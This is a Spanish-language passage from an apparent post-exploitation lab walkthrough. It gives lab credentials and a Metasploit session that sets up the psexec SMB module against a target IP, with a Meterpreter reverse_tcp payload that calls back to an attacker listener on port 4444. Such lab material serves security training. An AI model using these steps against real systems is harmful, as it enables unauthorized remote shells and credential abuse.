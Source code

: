 Ya que esta practica de post-explotación el acceso a esta ya esta hecha, dicho esto el usuario es `ballen` y la contraseña `Password1`. Por lo que iniciaremos metasploit con el modulo `exploit/windows/ smb /psexec`. En el vamos a poner los datos que ya tenemos, `RHOST`, `SMBUSER` y `SMBPASS`
```sh imp=2,4,6,31,35,36
msf6 exploit(windows/smb/psexec) > set RHOSTS 10.10.15.123
RHOSTS => 10.10.15.123
msf6 exploit(windows/smb/psexec) > set SMBPASS Password1
SMBPASS => Password1
msf6 exploit(windows/smb/psexec) > set SMBUSER ballen
SMBUSER => ballen
msf6 exploit(windows/smb/psexec) > show options

Module options (exploit/windows/smb/psexec):

   Name                  Current Setting  Required  Description
   ----                  ---------------  --------  -----------
   SERVICE_DESCRIPTION                    no        Service description to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                   no        The service display name
   SERVICE_NAME                           no        The service name
   SMBSHARE                               no        The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write
                                                    folder share


   Used when connecting via an existing SESSION:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   no        The session to run this module on


   Used when making a new connection via RHOSTS:

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   RHOSTS     10.10.15.123     no        The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit
                                         .html
   RPORT      445              no        The target port (TCP)
   SMBDomain  .                no        The Windows domain to use for authentication
   SMBPass    Password1        no        The password for the specified username
   SMBUser    ballen           no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.135.18     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```
